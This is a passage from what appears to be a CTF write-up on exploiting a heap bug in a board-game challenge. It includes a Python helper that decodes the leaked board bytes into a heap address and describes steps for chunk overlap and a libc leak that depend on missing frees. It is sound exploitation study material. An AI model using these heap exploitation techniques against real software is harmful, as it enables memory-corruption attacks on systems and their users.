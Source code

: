 
Now we see that there's heap address on `game_state` 

![Screenshot 2023-11-09 180706.jpg](https://hackmd.io/_uploads/SJAx045QT.jpg)

Board

![Screenshot 2023-11-09 180714.png](https://hackmd.io/_uploads/BkFlC457p.png)


We see there're some `\x00` because of `\x11` on `game_state`


Function to decode board

```python=
def convert_to_num():
     num = 0
     i = 0
     while( i < 32):
          chr = p.recv(1)
          match chr:
               case b'X':
                    num |= 2 << (2*i)
                    #print('X: ', hex(num), 'i: ', i)
                    i += 1
               case b'O':
                    num |= 1 << (2*i)
                    #print('Y: ', hex(num), 'i: ', i)
                    i += 1
               case b'\x00':
                    num |= 3 << (2*i)
                    #print('\\x00: ', hex(num), 'i: ', i)
                    i += 1
               case b'.':
                    #print('.: ', hex(num), 'i: ', i)
                    i += 1 
               case _:
                    continue
     return num  
```

So now i have heap

Notice that when we `surrender` the program doesn't `free` `Human` and `AI` object. We can make heap alignment of that

With the game, i can write `\x01` or `\x10` to anywhere that contains `\x00`
I overwrite the leaked chunk so that it's added `0x80`

![Screenshot 2023-11-09 181413.png](https://hackmd.io/_uploads/BJcz1BcQ6.png)

Now that when i choose `regret` the program will `free` `2` chunks `0xf80` and `0xec0` and we can have a libc leak at `0xe80`

![Screenshot 2023-11-09 181540.png](https://hackmd.io/_uploads/HyLuJSqm6.png)
